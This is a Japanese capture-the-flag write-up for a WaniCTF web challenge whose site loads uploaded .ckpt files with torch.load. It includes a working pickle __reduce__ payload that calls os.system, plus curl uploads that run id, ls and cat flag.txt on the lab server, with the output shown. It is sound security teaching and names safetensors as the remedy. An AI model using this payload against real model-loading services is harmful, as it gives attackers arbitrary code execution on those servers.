 # machine_loading:Misc:300pts
機械学習モデルを試すことができるサイトを作っています。  
まだ未完成ですが、モデルをロードする部分は先に作成しました。  
モデルの形式は、みんなよく使っている.ckptにします！  
I'm creating a website where users can test machine learning models.  
It's not completed yet, but I've already created the part that loads a model.  
The format of the model will be .ckpt, which we all use a lot!  
[https://machine-mis.wanictf.org](https://machine-mis.wanictf.org/)  

[mis-machine-loading.zip](mis-machine-loading.zip)  

# Solution
URLとソースが与えられる(Web問か？)。  
ひとまずアクセスすると、機械学習モデルをアップロードできるようだ。  
![site.png](site/site.png)  
ソースを見ると主要個所は以下の通りであった。  
```python
import torch
~~~
@app.route("/upload", methods=["POST"])
def upload():
    file = request.files["file"]
    if not file:
        return "No file uploaded.", 422
    if file.content_length > 1024 * 1024:  # 1MB
        return "File too large. Max size is 1MB.", 400

    suffix = pathlib.Path(file.filename).suffix
    if suffix == ".ckpt":
        try:
            modelload(file)

            if os.path.exists("output_dir/output.txt"):
                with open("output_dir/output.txt", "r") as f:
                    msg = f.read()
                os.remove("output_dir/output.txt")

            return f"File loaded successfully: {msg}"
        except Exception as e:
            return "ERROR: " + str(e), 400
    else:
        return "Invalid file extension. Only .ckpt allowed.", 400


def modelload(file):
    with BytesIO(file.read()) as f:
        try:
            torch.load(f)
            return
        except Exception as e:
            raise e
~~~
```
送信されたckptファイルを`torch.load`で読み取っている。  
そして謎だが`output_dir/output.txt`を返してくれる。  
ここで、ckptについて調べると、どうやら内部でpickleが利用されているようだ。  
よくあるRCEを行って、`output_dir/output.txt`経由で結果を取得する問題だと予想できる。  
以下のid_ckpt.pyを用いて、攻撃に用いるckptを作成する。  
```python
import os
import torch

class Exploit:
    def __reduce__(self):
        cmd = ("id > output_dir/output.txt")
        return os.system, (cmd,)

model = Exploit()

torch.save(model, "id.ckpt")
```
実行してできたid.ckptをアップロードする。  
```bash
$ python id_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@id.ckpt
File loaded successfully: uid=1000(ctf_user) gid=1000(ctf_user) groups=1000(ctf_user)
```
任意のコードが実行できた。  
あとは同様にコマンド部分を変えてフラグを見つければよい。  
```bash
$ python ls_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@ls.ckpt
File loaded successfully: chall.py
flag.txt
output_dir
templates
$ python cat_flag.txt_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@cat_flag.txt.ckpt
File loaded successfully: FLAG{Use_0ther_extens10n_such_as_safetensors}
```
flag.txtがあり、中にflagが書かれていた。  

## FLAG{Use_0ther_extens10n_such_as_safetensors}